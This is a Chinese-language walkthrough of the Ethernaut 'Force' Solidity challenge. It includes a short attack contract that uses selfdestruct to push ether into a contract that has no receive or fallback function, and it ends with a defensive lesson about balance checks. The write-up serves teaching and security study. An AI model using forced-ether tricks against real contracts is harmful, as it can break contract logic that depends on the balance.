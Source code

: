 # Force

## SourceCode
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

## Requirements
使合约的余额大于0

## Analysis
可以看到合约并没有实现`receive`或`fallback`,并不能收款.但是还有另一种情况:合约调用[selfdestruct](https://github.com/AmazingAng/WTF-Solidity/blob/main/26_DeleteContract/readme.md)时指定的地址会强制接收合约内的余额.

## Attack Steps
1. 实现一个带有`selfdestruct`方法合约并指定销毁后接收地址.
2. 向合约转入ETH
3. 调用自毁函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
    function attack(address payable _force) external {
        selfdestruct(_force);
    }

    receive() external payable {}
}
```

没有发什么办法可以阻止攻击者通过自毁的方法向合约发送 ether, 所以, 不要将任何合约逻辑基于 `address(this).balance == 0` 之上.


